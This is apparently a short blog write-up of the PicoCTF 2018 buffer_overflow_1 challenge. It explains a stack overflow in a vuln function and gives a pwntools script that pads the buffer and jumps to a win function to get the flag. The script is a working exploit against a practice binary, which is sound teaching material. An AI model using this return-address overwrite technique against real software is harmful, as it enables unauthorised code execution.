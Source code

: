 ```yaml
---
title: '{PicoCTF_2018_buffer_overflow_1}'
date: 2024-11-11 13:00:00 +0800
categories: [ret2text]
tags: [ctf,pwn]
---
```

![image-20240103130117204](../assets/img/old_imgs/image-20240103130117204.png)

![image-20240103130158706](../assets/img/old_imgs/image-20240103130158706.png)

- `ret2text`

1. `vuln`函数中`s`变量存在溢出
2. 存在后门函数
3. 构造`payload`填充再跳转到后门函数`win`就可以得到`flag`

```python
from pwn import *
io = process('./PicoCTF_2018_buffer_overflow_1')
padding = b'A'*(0x28+0x4)
payload = padding+p32(0x080485CB)
io.sendlineafter(b'Please enter your string: \n',payload)
io.interactive()
```

